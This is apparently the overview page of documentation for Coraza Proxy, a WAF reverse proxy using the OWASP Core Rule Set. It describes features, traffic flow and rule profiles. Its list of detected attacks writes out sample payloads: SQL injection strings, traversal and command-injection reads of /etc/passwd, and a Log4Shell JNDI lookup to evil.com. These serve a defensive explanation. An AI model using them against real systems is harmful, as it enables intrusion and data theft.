

## What is Coraza Proxy?

Coraza Proxy is a high-performance Web Application Firewall (WAF) reverse proxy built with [Coraza WAF](https://coraza.io) and the [OWASP Core Rule Set (CRS)](https://coreruleset.org). It provides enterprise-grade protection against common web application attacks including SQL injection, XSS, LFI, RCE, and protocol violations.

<Info>
Coraza Proxy acts as a security layer between your clients and backend services, inspecting all HTTP traffic in real-time and blocking malicious requests before they reach your application.
</Info>

## Key Features

### Comprehensive Attack Protection

- **OWASP Top 10 Coverage**: Protection against SQL injection, XSS, LFI, RCE, and more
- **Protocol Enforcement**: HTTP protocol validation and smuggling prevention
- **Dual Configuration Profiles**: Separate rule sets for web sites (PL1) and APIs (PL2)
- **Configurable Paranoia Levels**: Balance security strictness with false positive rates

### Advanced Traffic Management

- **IP-Based Rate Limiting**: Prevent abuse with per-IP request throttling
- **GeoIP Filtering**: Allow or block traffic by country code
- **Bot Detection**: Configurable bot blocking with User-Agent analysis
- **Multi-Backend Load Balancing**: Round-robin distribution with host-based and path-based routing

### Production-Ready Features

- **JSON Audit Logging**: Comprehensive request/response logging for compliance
- **Cloudflare Integration**: Native support for CF-Connecting-IP and proxy headers
- **Real Client IP Detection**: Proper IP extraction from X-Forwarded-For headers
- **Flexible Backend Configuration**: JSON-based routing with path prefix matching

## Architecture Overview

### Traffic Flow

<Steps>
  <Step title="Connection Phase">
    Client IP extraction from headers (CF-Connecting-IP, X-Forwarded-For) or remote address
  </Step>
  
  <Step title="Pre-WAF Filtering">
    - Rate limiting check (configurable requests/second per IP)
    - GeoIP country validation (if enabled)
    - Bot detection via User-Agent patterns
  </Step>
  
  <Step title="WAF Inspection">
    - Request header analysis
    - Request body inspection (SQL injection, XSS, command injection)
    - Response header validation
    - Anomaly scoring based on OWASP CRS rules
  </Step>
  
  <Step title="Backend Routing">
    - Host-based backend selection
    - Path prefix matching for specific routes
    - Round-robin load balancing across backend servers
  </Step>
</Steps>

## Rule Set Profiles

Coraza Proxy supports two distinct security profiles optimized for different traffic types:

### PL1 - Web Sites Profile

**Use case**: Traditional web applications serving HTML, CSS, JavaScript, and static assets

- Paranoia Level 1 (balanced security)
- Inbound anomaly threshold: 5
- Allowed methods: `GET`, `HEAD`, `POST`, `OPTIONS`
- Supports multipart/form-data, HTML content, and static files
- Automatic protocol enforcement bypass for `.ico`, `.png`, `.jpg`, `.css`, `.js`, etc.

### PL2 - APIs Profile

**Use case**: RESTful APIs and backend services with JSON payloads

- Focused rule set (initialization + specific attack categories)
- Optimized for application/json content type
- Reduced false positives for API-specific patterns
- Covers SQL injection, XSS, LFI, and generic application attacks

<Tip>
You can configure which hosts use which profile via the `PROXY_WEB_HOSTS` and `PROXY_APIS_HOSTS` environment variables.
</Tip>

## Security Capabilities

Coraza Proxy detects and blocks a wide range of attacks:

<Accordion title="SQL Injection Protection">
  Detects and blocks:
  - Simple injections: `' OR '1'='1`
  - UNION-based attacks: `UNION SELECT 1,2,3--`
  - Boolean-based blind SQLi: `AND 1=1`
  - Time-based injections: `SLEEP(5)`
</Accordion>

<Accordion title="Cross-Site Scripting (XSS)">
  Protection against:
  - Classic XSS: ``
  - Event handler injection: ``
  - Encoded payloads
  - DOM-based XSS patterns
</Accordion>

<Accordion title="Path Traversal & LFI">
  Blocks attempts to access:
  - System files: `../../etc/passwd`
  - Windows paths: `..\..\windows\system32`
  - Encoded traversal sequences
</Accordion>

<Accordion title="Remote Code Execution">
  Detects command injection patterns:
  - Shell command separators: `;ls -la`
  - Pipe operators: `|whoami`
  - Backtick execution: `` `cat /etc/passwd` ``
  - Variable substitution: `$(cat /etc/passwd)`
</Accordion>

<Accordion title="Protocol Attacks">
  Prevents:
  - HTTP request smuggling
  - Invalid UTF-8 encoding
  - Missing or malformed headers
  - HTTP method tampering
</Accordion>

<Accordion title="Log4Shell & CVE Protection">
  Built-in detection for:
  - Log4j JNDI injection: `${jndi:ldap://evil.com}`
  - Recent CVE patterns included in CRS updates
</Accordion>

## Performance Characteristics

- **Language**: Go 1.24+ with native Coraza v3 library
- **Memory**: Configurable request body limits (default: 13MB max, 128KB in-memory)
- **Concurrency**: Goroutine-based request handling with per-IP rate limiter cleanup
- **Latency**: Minimal overhead with optional response body inspection disabled

<Warning>
Response body inspection is disabled by default (`tx.crs_skip_response_analysis=1`) to prevent Reverse Denial of Service (RDoS) attacks. Enable only if you need outbound content filtering.
</Warning>

## Use Cases

**Microservices Security**: Deploy as a sidecar or gateway to protect multiple backend services with centralized WAF rules

**API Gateway**: Use PL2 profile to secure REST APIs without false positives from strict web application rules

**Legacy Application Protection**: Add modern security controls to applications that can't be easily modified

**Compliance**: Meet security requirements with comprehensive audit logging and attack prevention

**Multi-Tenant Hosting**: Route different domains to different backends while applying consistent security policies

## Next Steps

<CardGroup cols={2}>
  <Card title="Quick Start" icon="rocket" href="/quickstart">
    Get Coraza Proxy running in 5 minutes with Docker
  </Card>
  <Card title="Installation" icon="download" href="/installation">
    Detailed setup instructions and building from source
  </Card>
</CardGroup>